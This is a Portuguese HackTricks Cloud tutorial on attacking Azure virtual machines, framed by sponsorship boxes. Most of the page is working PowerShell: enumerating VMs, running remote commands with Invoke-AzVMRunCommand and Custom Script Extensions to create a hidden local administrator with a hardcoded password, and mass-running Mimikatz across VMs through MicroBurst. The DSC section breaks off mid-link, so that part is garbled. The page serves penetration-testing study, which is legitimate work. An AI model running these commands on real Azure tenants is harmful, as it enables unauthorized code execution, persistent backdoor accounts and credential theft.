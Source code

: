 # Az - Máquinas Virtuais

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Informações básicas

As máquinas virtuais do Azure são um dos vários tipos de recursos de computação escaláveis sob demanda que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Enumeração

```powershell
# Obter VMs legíveis
Get-AzVM | fl
# Listar VMs em execução
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Obter interface e endereço IP
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

# Obter extensões instaladas
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Obter nome do conector de rede da VM
Get-AzNetworkInterface -Name <name> # Obter informações do conector de rede (como IP)
```

## **Executar comandos em uma VM**

### **AAD Login na VM**

É possível permitir o acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **VM Linux**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o e-mail** com o azurecorp usado ao tentar fazer login), você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguir essas instruções** indo para [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o e-mail e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para fazê-lo: função `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Executar comando**

```powershell
# A permissão que permite isso é Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Outra maneira
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Conteúdo do script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Tente executar em todas as máquinas
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Executar Extensão de Script Personalizado**

As extensões de máquina virtual (VM) do Azure são **pequenas aplicações** que fornecem configuração pós-implementação e tarefas de automação em **VMs do Azure**. Por exemplo, se uma máquina virtual requer instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão VM.

Portanto, se você tiver acesso para escrevê-lo, poderá executar código arbitrário:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** é semelhante ao Ansible, mas é uma ferramenta dentro do PowerShell que permite que um host seja configurado por meio de código. O DSC tem sua própria extensão no Azure, que permite o upload de **arquivos de configuração**. Os arquivos de configuração do DSC [são bastante exigentes em relação à sintaxe](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document), no entanto, a extensão DSC é muito ingênua e **executará cegamente qualquer comando** desde que siga um determinado formato, como mostrado na figura 5.

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Isso pode ser feito por meio da função **Az PowerShell** [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration
## Referências

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
